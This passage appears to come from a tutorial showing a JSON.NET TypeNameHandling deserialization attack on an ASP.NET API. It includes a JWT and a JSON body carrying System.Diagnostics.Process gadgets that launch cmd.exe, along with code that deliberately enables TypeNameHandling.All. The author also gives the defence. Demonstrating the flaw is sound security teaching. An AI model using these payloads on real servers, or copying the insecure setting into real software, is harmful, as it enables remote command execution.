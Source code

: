 The above translates into a JWT. I censored the JWT, but the payload is the same.

```json
eyJh***.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyLCJleHAiOjE2MTYyMzkwMjIsInByb2Nlc3MiOnsiJHR5cGUiOiJTeXN0ZW0uRGlhZ25vc3RpY3MuUHJvY2VzcywgU3lzdGVtLkRpYWdub3N0aWNzLlByb2Nlc3MsIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iMDNmNWY3ZjExZDUwYTNhIiwiU3RhcnRJbmZvIjp7IkZpbGVOYW1lIjoiY21kLmV4ZSIsIkFyZ3VtZW50cyI6Ii9jIGNhbGMuZXhlIiwiQ3JlYXRlTm9XaW5kb3ciOnRydWUsIlVzZVNoZWxsRXhlY3V0ZSI6ZmFsc2V9fX0.jDT3u***
```

## Body

The following JSON is the Json I used to try to create a file test.txt with the content test.

```json
{ "minMaxTempC": { "min": -1, "max": 2 }, "name": "crazy", "$type": "System.Diagnostics.Process, System.Diagnostics", "StartInfo": { "FileName": "cmd.exe", "Arguments": "test > test.txt", "RedirectStandardOutput": true } }
```

Because the model was not the one that the server expected, I got bad requests. So I ensured that it had the same properties as the model.

```csharp
public record TemperatureCelciusBucket(TempCRange minMaxTempC, string Name);
public record TempCRange(double Min, double Max);
```

In the `JsonSerialiserSettingsProvider,` you can notice the following comment about the type handling issue.

![](./images/json_net_typenamehandling_none.png)

You need to set up your program to set the `TypeNameHandling` to `All` to ensure the attack could be done. Note, you want to set it to `None` when you try to protect yourself against an attack.

```csharp
builder.Services.AddControllers().AddNewtonsoftJson(options =>
{
    options.SerializerSettings.TypeNameHandling = TypeNameHandling.All;
    options.SerializerSettings.ContractResolver = new DefaultContractResolver();
});
```

On the website of JSON.NET, for that property and option, you do not get that warning. Check it out for yourself:

[TypeNameHandling Enumeration (](https://www.newtonsoft.com/json/help/html/T_Newtonsoft_Json_TypeNameHandling.htm)[newtonsoft.com](http://newtonsoft.com)[)](https://www.newtonsoft.com/json/help/html/T_Newtonsoft_Json_TypeNameHandling.htm)

They do mention that is a good practice to whitelist the objects that you want to use, which is also recommended by [OWASP](https://www.linkedin.com/posts/cybersecricki_i-will-be-bringing-some-freshly-delivered-activity-7043002593966522368-9mFL/).
